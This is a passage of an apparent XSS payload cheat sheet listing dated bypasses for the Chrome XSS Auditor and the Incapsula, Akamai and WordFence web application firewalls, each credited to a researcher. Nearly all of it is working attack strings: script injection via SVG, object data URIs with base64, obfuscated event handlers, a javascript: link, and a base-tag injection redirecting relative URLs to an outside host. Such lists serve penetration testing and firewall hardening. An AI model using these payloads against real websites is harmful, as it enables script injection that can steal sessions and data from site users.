 ### Chrome Auditor - 9th August 2018

```javascript
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B)

### Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th March 2018

```javascript
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

### Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th September 2018

```javascript
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

### Incapsula WAF Bypass by [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 11th May 2019

```html
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

### Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th June 2018

```javascript
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

### Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th October 2018

```html
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th September 2018

```javascript
<a href=javas&#99;ript:alert(1)>
```

### Fortiweb WAF Bypass by [@rezaduty](https://twitter.com/rezaduty) - 9th July 2019
